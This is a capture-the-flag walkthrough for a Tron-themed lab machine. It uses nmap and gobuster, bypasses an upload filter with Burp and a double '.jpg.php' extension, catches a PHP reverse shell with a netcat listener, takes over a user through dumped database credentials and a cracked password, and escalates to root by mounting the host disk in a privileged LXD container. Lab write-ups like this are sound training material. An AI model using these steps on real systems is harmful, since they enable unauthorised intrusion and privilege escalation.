 ## **Enumeration**
>	- Performing initial SYN scan on all ports.
```
nmap -sS -p- -vv 10.10.217.93
```
> - ![](nmap-out.png)
> - Accessing the website on `10.10.217.93:65000`.![](hidden-webapp.png)
> - Using `gobuster dir -u http://10.10.217.93:65000/ -w /usr/share/dirb/wordlists/common.txt -x "php"` to search for `.php` files.![](dirb-php-out.png)
## **Gaining Access**
>	- Going to `/uploads.php` to test the upload filters and upload the reverse shell.
>	- Adding `.jpg.php` to the end of the file shows invalid. The web application seems to use client-side filtering.![](upload-filtered.png)
>	- Use `burpsuite` to drop the `.js` file that implements the client-side filter. 
>	- *NOTE: Make sure to allow burpsuite to catch .js files by going to Proxy > Proxy settings > Request Extension Rules > File Extensions and remove |^.js$ and then in the Response Interception rules section allow "intercept responses based on the following rules".*
>	- Drop the `filter.js` file.![](filter-drop.png)
>	- Upload the `php-reverse-shell.jpg.php` to the web application which evades the server-side filtering by the use of the `.jpg` extension before the `.php` one. Make sure to edit the `$ip` and `$port` to the appropriate values.
>	- Use `nc -lvnp 443` to wait for the shell, then go to the path `/grid` and access the uploaded reverse shell.![](reverse-shell.png)
>	- Stabilize the shell and make it interactive using the following.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
>	- `export TERM=xterm` gives us access to term commands such as `clear`.![](stab-shell-1.png)
>	- Then back-grounding the process using `CTRL+Z` and then to add tab auto-completes and arrow-keys by using `stty raw -echo; fg` which turns off main terminal's echo as well. *NOTE: Use the command "reset" to gain access back on the main terminal to the disabled features*![](stab-shell-2.png)
>	- Search for the flag using `find / -name web.txt`.![](flag-1.png)
## **Enumeration v2**
>	- Use `find /var/www/ -maxdepth 2 -type d -exec ls -ld "{}" \` to recursively search the directories located in `/var/www/` with max-depth 2.![](search-www-out.png)
>	- The `/var/www/TheGrid/includes/dbauth.php` contains hard-coded credentials.![](dbauth-out.png)
>	- Accessing the database by using `mysql -utron -p`.![](mysql-access-out.png)
>	- Using `show databases;` to view all the databases present.![](databases-out.png)
>	- Using `use tron;` and `show tables;` afterwards.![](tables-out.png)
>	- Using `SELECT * FROM users;` to view the credentials.![](users-out.png)
>	- *NOTE: IP changed*
>	- Using `https://crackstation.net` to crack the found hash.![](pass-cracked.png)
>	- Using `su flynn` and the cracked password `@computer@` to access the user.![](flynn-accessed.png)
>	- Second flag can be found in `home/flynn/user.txt`.![](flag-2.png)
>	- Get `flynn`'s groups by using `id`.![](flynn-groups.png)
## **Privilege Escalation**
>	- The found group `lxd` can be abused to escalate privileges.
>	- First check that there is already an `lxc` image using `lxc image list`, if nothing comes back, then we need to transfer the alpine image to the target.
>		- On the attacking machine:
>			- Download build-alpine through this [git repository](https://github.com/lxd-images/alpine-3-7-apache-php5-6).
>			- Transfer the `.tar` file to the target.
>		- On the target machine:
>			- Download the alpine image.
>			- import image for lxd.
>			- Initialize the image inside a new container.
>			- Mount the container inside `/root` directory.
>	- In our case there is already an alpine image on the target.![](alpine-image.png)
>	- Use `lxc init Alpine container -c security.privileged=true` to initialize a container named `container`.
>	- Use `lxc config device add container devicename disk source=/ path=/mnt/root recursive=true` to mount the image.
>	- Use `lxc start container`.
>	- Use `lxc exec container /bin/sh` to open a shell.![](alpine-shell.png)
>	- Check the user groups and that we escalated privileges correctly using `id` and `cd /mnt/root/root`.![](privesc-out.png)
>	- The final flag is found in `./root.txt`.![](flag-3.png)
